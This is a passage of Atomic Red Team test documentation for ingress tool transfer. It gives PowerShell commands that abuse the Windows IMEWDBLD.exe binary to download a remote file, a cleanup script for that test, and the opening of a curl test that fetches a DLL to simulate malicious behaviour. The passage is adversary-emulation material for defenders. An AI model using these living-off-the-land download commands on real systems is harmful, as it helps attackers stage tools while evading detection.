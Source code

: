 **auto_generated_guid:** 1a02df58-09af-4064-a765-0babe1a0d1e2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_url | Location of file to be downloaded. | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1105/T1105.yaml|
| file_name | Name of the file to be downloaded without extension. | string | T1105|


#### Attack Commands: Run with `powershell`! 


```powershell
$imewdbled = $env:SystemRoot + "\System32\IME\SHARED\IMEWDBLD.exe"
& $imewdbled #{remote_url}
```

#### Cleanup Commands:
```powershell
$inetcache = $env:LOCALAPPDATA + "\Microsoft\Windows\INetCache\" 
$file_to_be_removed = [string[]] (Get-ChildItem -Path $inetcache -Include #{file_name}* -Recurse -Force -File -ErrorAction SilentlyContinue)
if("" -ne "$file_to_be_removed") { Remove-Item "$file_to_be_removed" -ErrorAction Ignore }
```





<br/>
<br/>

## Atomic Test #18 - Curl Download File
The following Atomic utilizes native curl.exe, or downloads it if not installed, to download a remote DLL and output to a number of directories to simulate malicious behavior.
Expected output will include whether the file downloaded successfully or not.

**Supported Platforms:** Windows


**auto_generated_guid:** 2b080b99-0deb-4d51-af0f-833d37c4ca6a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_download | File to download | string | https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll|
| curl_path | path to curl.exe | path | C:&#92;Windows&#92;System32&#92;Curl.exe|


#### Attack Commands: Run with `command_prompt`! 

